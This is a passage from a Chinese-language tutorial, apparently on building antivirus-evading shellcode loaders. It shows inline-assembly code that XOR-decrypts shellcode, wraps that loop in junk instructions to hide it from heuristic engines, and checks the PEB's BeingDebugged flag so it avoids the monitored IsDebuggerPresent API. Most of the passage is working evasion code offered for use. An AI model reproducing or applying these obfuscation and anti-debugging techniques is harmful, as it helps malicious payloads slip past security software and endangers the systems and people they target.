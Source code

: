 ```
__asm __emit(0x3d)
__asm __emit(0x6f)
True1:
POP EAX
`}`
Shellcode[i] = (Shellcode[i] ^ Key[(i % sizeof(Key))]);


__asm
`{`
PUSH EAX
XOR EAX, EAX
JZ True2
__asm __emit(0xd5)
__asm __emit(0xb6)
__asm __emit(0x43)
__asm __emit(0x87)
__asm __emit(0xde)
__asm __emit(0x37)
__asm __emit(0x24)
__asm __emit(0xb0)
__asm __emit(0x3d)
__asm __emit(0xee)
True2:
POP EAX
`}`
`}`
`}`
```

用一个for循环完成异或操作，上面和下面的汇编代码块不做任何事，它们只是一些随机的异或操作和跳转。因为我们没有用其他高级的解密机制，这对于混淆解密过程来说已经足够了。

**动态分析检测：**

写沙盒检测机制的时候我们也需要混淆我们的函数，如果启发式引擎检测到任何反汇编的方法将是糟糕的。

**检测调试器：**

第一种检测机制是检查我们的进程是否被调试。

有一个函数直接判断调用者所在的进程是否被用户态调试器调试。但是我们不用它，因为大部分杀软会监控这个API的调用。我们通过PEB结构中的“BeingDebuged”字段来判断。



```
// bool WINAPI IsDebuggerPresent(void);
__asm
`{`
CheckDebugger:
PUSH EAX // Save the EAX value to stack
MOV EAX, DWORD PTR FS : [0x18] // Get PEB structure address
MOV EAX, DWORD PTR[EAX + 0x30] // Get being debugged byte
CMP BYTE PTR[EAX + 2], 0 // Check if being debuged byte is set
JNE CheckDebugger // If debugger present check again
POP EAX // Put back the EAX value
`}`
```
